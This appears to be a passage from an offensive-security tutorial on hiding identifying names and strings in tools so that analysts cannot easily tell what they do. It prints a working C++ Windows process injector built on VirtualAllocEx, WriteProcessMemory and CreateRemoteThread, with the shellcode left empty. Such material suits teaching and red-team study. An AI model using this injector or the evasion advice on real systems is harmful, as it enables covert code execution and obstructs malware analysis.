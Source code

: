 # Protecting and stripping identifiable information

Consider three different types of identifiable data: object names, code structure, and file/compilation properties.

## Object names

Object names offer some of the most significant insight into a program's functionality and can reveal the exact 
purpose of a function. An analyst can still deconstruct the purpose of a function from its behavior, but this is 
much harder if there is no context to the function.

The importance of literal object names may change depending on if the language is compiled  or interpreted. If an 
interpreted language such as Python or PowerShell is used, then all objects matter and must be modified. If a 
compiled language such as C, C# or C++ is used, only objects appearing in the strings are generally significant. An 
object may appear in the strings by any function that produces an IO operation.

### Example in C++

As example, a process injector written in C++ that reports its status to the command line:

```text
#include "windows.h"
#include <iostream>
#include <string>
using namespace std;

int main(int argc, char* argv[])
{
	unsigned char shellcode[] = "";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;
	string leaked = "This was leaked in the strings";

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	cout << "Handle obtained for" << processHandle;
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	cout << "Buffer Created";
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	cout << "Process written with buffer" << remoteBuffer;
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);
	cout << "Closing handle" << processHandle;
	cout << leaked;

	return 0;
}
```
